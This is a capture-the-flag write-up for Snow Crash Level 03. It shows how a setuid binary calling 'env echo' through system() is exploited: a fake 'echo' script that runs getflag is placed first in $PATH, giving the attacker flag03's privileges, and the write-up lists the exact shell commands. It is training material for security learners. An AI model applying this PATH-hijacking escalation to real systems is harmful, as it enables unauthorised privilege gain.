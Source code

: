 # Snow Crash - Level 03

## Finding the Executable

We find an executable named `level03`. To inspect its contents, we use the following command:

```bash
cat level03
```

The output reveals compiled C code. Using a decompiler, we retrieve the original source code, which includes the following line:

```c
return system("/usr/bin/env echo Exploit me");
```

## Understanding the Exploit

The `env` command uses the `$PATH` variable to locate `echo`. It executes the first matching instance found in the directories listed in `$PATH`. By manipulating `$PATH`, we can execute our own `echo` command instead of the system’s default.

Additionally, the program runs with the permissions of its owner, `flag03`, as confirmed by the following code:

```c
v1 = getegid();
v2 = geteuid();
v0 = v1;
setresgid(v1, v1);
v0 = v2;
setresuid(v2, v2);
```

## Exploiting the Vulnerability

To escalate privileges, we create a custom `echo` script that runs `getflag` and place it in a directory we control. We then modify `$PATH` to prioritize this directory.

### Steps:

1. Create a new directory and navigate into it:

   ```bash
   mkdir /tmp/exploit
   cd /tmp/exploit
   ```

2. Create a fake `echo` script:

   ```bash
   echo "#!/bin/bash" > echo
   echo "getflag" >> echo
   chmod +x echo
   ```

3. Modify the `$PATH` variable:

   ```bash
   export PATH=/tmp/exploit:$PATH
   ```

4. Run the vulnerable executable:

   ```bash
   ./level03
   ```

This executes `getflag` with `flag03`'s permissions, retrieving the flag.

